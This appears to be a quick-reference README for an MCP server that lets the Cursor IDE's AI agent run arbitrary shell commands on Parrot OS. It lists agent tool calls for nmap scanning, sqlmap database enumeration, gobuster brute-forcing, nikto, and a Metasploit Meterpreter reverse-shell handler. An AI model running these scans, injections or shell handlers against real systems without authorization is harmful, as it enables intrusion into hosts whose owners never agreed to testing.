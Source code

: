 # 🚀 Cursor MCP Quick Reference - Parrot OS

## 📋 Basic Usage

### System Information
```
@get_system_info
```

### Run Commands
```
@run_command {"command": "your-shell-command"}
```

### File Operations
```
@read_file {"file_path": "/path/to/file"}
@write_file {"file_path": "/path/to/file", "content": "file content"}
@list_directory {"path": "/path/to/dir"}
```

## 🔒 Security Operations

### Network Scanning
```
@run_command {"command": "nmap -sS -sV target.com"}
@run_command {"command": "nmap -p 1-1000 -T4 target.com"}
```

### Web Application Testing
```
@run_command {"command": "sqlmap -u 'http://target.com/login' --dbs"}
@run_command {"command": "burpsuite &"}
```

### Vulnerability Assessment
```
@run_command {"command": "nikto -h target.com"}
@run_command {"command": "gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt"}
```

### Metasploit Integration
```
@run_command {"command": "msfconsole -q -x 'use exploit/multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST 192.168.1.100; set LPORT 4444; exploit'"}
```

## 📁 File Management

### Read Security Documentation
```
@read_file {"file_path": "/home/ben/Documents/parrot mcp/pentesting_guide.md"}
@read_file {"file_path": "/home/ben/Documents/parrot mcp/advanced_hacking_tools.md"}
```

### Create Security Scripts
```
@write_file {
  "file_path": "/tmp/scan.sh",
  "content": "#!/bin/bash\necho 'Starting security scan...'\nnmap -sS $1\necho 'Scan complete!'"
}
```

### Backup Operations
```
@copy_file {"source": "/important/file.conf", "destination": "/backup/file.conf.bak"}
```

## 🛠️ System Administration

### Process Management
```
@run_command {"command": "ps aux | grep -i security"}
@run_command {"command": "systemctl status ssh"}
```

### Package Management
```
@run_command {"command": "apt update && apt upgrade -y"}
@run_command {"command": "apt search security-tool"}
```

### Log Analysis
```
@run_command {"command": "tail -f /var/log/auth.log"}
@run_command {"command": "grep 'Failed' /var/log/auth.log"}
```

## 🎯 Advanced Examples

### Multi-step Security Assessment
```
# Step 1: Reconnaissance
@run_command {"command": "nmap -sS -sV -O target.com -oA scan_results"}

# Step 2: Web Directory Brute-forcing
@run_command {"command": "gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt -o web_scan.txt"}

# Step 3: Read Results
@read_file {"file_path": "scan_results.nmap"}
@read_file {"file_path": "web_scan.txt"}
```

### Automated Reporting
```
@write_file {
  "file_path": "/tmp/security_report.md",
  "content": "# Security Assessment Report\n\n## Scan Results\n- Target: target.com\n- Date: $(date)\n\n## Findings\n$(cat scan_results.nmap | head -20)\n\n## Recommendations\n- Update services\n- Review firewall rules"
}
```

## 🔧 Troubleshooting

### Check MCP Status
```
@run_command {"command": "cd /home/ben/Documents/parrot mcp && source .venv/bin/activate && python test_server.py"}
```

### Verify Installation
```
@run_command {"command": "which nmap sqlmap msfconsole burpsuite"}
```

### Test Connectivity
```
@run_command {"command": "ping -c 4 google.com"}
@run_command {"command": "curl -I http://target.com"}
```

## 📊 Performance Tips

- Use `@run_command` for quick shell operations
- Use `@read_file` for reading documentation and results
- Use `@write_file` for creating scripts and reports
- Chain commands for complex workflows

## 🚀 Ready to Use!

Your Parrot OS MCP server is fully integrated with Cursor IDE. Use `@` commands to access powerful security tools directly from your editor!